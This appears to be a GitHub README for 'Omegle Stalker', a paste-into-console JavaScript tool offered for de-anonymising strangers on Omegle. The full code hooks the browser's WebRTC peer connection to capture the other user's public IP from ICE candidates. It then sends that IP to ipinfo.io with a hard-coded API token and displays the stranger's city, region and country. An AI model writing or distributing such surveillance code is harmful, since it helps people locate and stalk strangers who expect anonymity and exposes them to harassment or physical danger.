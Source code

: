 # Omegle Stalker
JavaScript script that gets the stranger's location and IP

![Sample Image](./sample.png "Image")

**YOU NEED TO DISABLE ADBLOCK IN ORDER TO USE THIS SCRIPT SINCE IT BLOCKS THE REQUESTS.**

## Usage:
Just copy and paste the script in your browser's console

```javascript

window.oRTCPeerConnection = window.oRTCPeerConnection || window.RTCPeerConnection

window.RTCPeerConnection = function (...args) {
    const pc = new window.oRTCPeerConnection(...args)

    pc.oaddIceCandidate = pc.addIceCandidate

    pc.addIceCandidate = function (iceCandidate, ...rest) {
        const fields = iceCandidate.candidate.split(' ')
        if (fields[7] === 'srflx') {
            console.log(fields[4])
            httpGet(fields[4])
        }
        return pc.oaddIceCandidate(iceCandidate, ...rest)

    }

    return pc
}

function httpGet(field) {
    const request = new XMLHttpRequest()

    let url = `https://ipinfo.io/${field}?token=88872609d792b2` // token = your API token

    request.open('GET', url)

    request.onload = function () {
        console.log(JSON.parse(this.responseText))
        console.log('url: ' + url)
        let data = JSON.parse(this.responseText)
        output(`Cidade: ${data["city"]}`)
        output(`Estado: ${data["region"]}`)
        output(`País: ${data["country"]}`)
        output(`IP: ${data["ip"]}`)
    }

    request.onerror = function () { console.log('Request error') }

    request.send()
}

let history = []
function output(str) {
    if (!history.includes(str)) {
        let holder = document.getElementsByClassName('logbox')[0].firstChild

        let new_item = document.createElement('div')
        new_item.className = 'logitem'

        let new_status = document.createElement('p')
        new_status.innerHTML = str
        new_status.className = 'statuslog'

        new_item.appendChild(new_status)
        holder.appendChild(new_item)
        history.push(str)
    }
}

```

## TODO
Will add these features in the future
- [ ] Works as an extension
- [ ] Unlimited requests

## Warning
Currently there is a limit on the requests, and once it gets to its limit, this script will stop working. You can edit your [ip.info](https://ipinfo.io/) API token in order to use it more times.

If you know any free and unlimited ``https`` based geolocation API, please let me know (contact me via Discord)

**YOU NEED TO DISABLE ADBLOCK IN ORDER TO USE THIS SCRIPT SINCE IT BLOCKS THE REQUESTS.**